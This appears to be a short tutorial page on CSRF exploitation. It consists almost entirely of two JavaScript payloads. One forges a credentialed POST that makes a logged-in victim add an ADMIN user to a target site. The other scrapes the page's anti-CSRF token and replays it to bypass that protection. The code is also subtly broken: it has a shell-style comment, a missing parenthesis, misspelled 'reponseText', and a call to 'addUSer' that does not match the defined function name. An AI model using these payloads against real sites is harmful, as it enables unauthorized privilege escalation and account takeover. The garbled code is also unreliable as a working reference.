 ### Advanced CSRF Exploitation - parte 1

Este es un bonito sitio de compras.

```js
<script type="text/javascript">

var url = "http://targeturl.site/add_user.php";
var params = "name=Talent&surname=John&email=talent%40site.com&role=ADMIN&submit=";
# u can grab this param via BURP

var CSRF=new XMLHttpRequest();
CSRF.open("POST",url, true);
CSRF.withCredentials = "true";
CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// u can grab the content-type via BURP
CSRF.send(params);
</script>
```

#### bypass token

```js
<script type="text/javascript">

function addUser(token)
{
  var url = "http://targeturl.site/add_user.php";
  var params = "name=Talent&surname=John&email=talent%40site.com&role=ADMIN&submit=&CSRFToken=" + token;

  var CSRF=new XMLHttpRequest();
  CSRF.open("POST",url, true);
  CSRF.withCredentials = "true";
  CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  CSRF.send(params);
}

// extract the token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function(){
  if(XHR.readyState == 4{
    var htmlSource = XHR.reponseText; // the source of users

    // extract the token
    var parser = new DOMParser().parseFromString(htmlSource, "text/html");
    var token = parser.getElementById("CSRFToken").value;
    addUSer(token);
  }

}

XHR.open('GET', 'targeturl.site',true);
XHR.send();

</script>
```
